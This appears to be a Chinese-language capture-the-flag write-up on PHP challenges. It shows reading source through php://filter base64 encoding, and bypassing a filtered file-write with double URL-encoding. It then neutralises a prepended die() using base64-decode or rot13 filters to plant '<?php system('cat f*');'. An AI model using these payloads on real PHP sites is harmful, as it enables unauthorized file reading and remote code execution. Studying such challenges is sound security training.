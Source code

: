   ```php
  # flag.php
  <?php
  
  // $flag = 'flag{th14_1s_m3_fl4g}';
  echo '答案在注释里，自己找吧';
  ```

  我们可以利用 `php://filter` 伪协议来读取文件内容，需要注意的是，`php://filter` 伪协议如果不指定过滤器的话，默认会解析 PHP 代码，所以我们需要指定 `convert.base64-encode` 过滤器来对文件内容进行编码

  ```php
  php://filter/read=convert.base64-encode/resource=flag.php
  ```

  **rot13**

  ```php
  <?php
  if(isset($_GET['file'])){
      $file = $_GET['file'];
      $content = $_POST['content'];
      $file = str_replace("php", "???", $file);
      $file = str_replace("data", "???", $file);
      $file = str_replace(":", "???", $file);
      $file = str_replace(".", "???", $file);
      file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
      
  }else{
      highlight_file(__FILE__);
  }
  ```

  一个写文件的题，但是有过滤，不允许包含 `php` , `data` , `:` 和 `.` 但是在写入操作的时候，会把 `file` 参数进行 `urldecode`，所以我们可以两次 `urldecode` 来绕过过滤，然后只需要考虑如何绕过 `<?php die('大佬别秀了');?>` 中的 `die()` 即可

  我们可以尝试使用 Base64 绕过 `die()`，Base64 的编码范围是 `0-9` , `a-z` , `A-Z` , `+` 和 `/` ，其他字符会被忽略，去掉不支持的字符，只剩下了 `phpdie` 了，因为 Base64 解码是按照 4位 一组进行解码的，所以我们需要在最终编码出来的字符串中最前面添加两个字母，以达到 Base64 解码的规则

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/convert.base64-decode/resource=1.php
  // 需要base64编码，编码后最前面添加两个字母如：aa
  POST: content=<?php system('cat f*');
  ```

  另一种方法是使用 Rot13 编码

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/string.rot13/resource=1.php
  // 需要Rot13编码
  POST: content=<?php system('cat f*');
  ```

  Rot13 解码后写入的文件内容变为了

  ```php
  <?cuc qvr('大佬别秀了');?><?php system('cat f*');
  ```
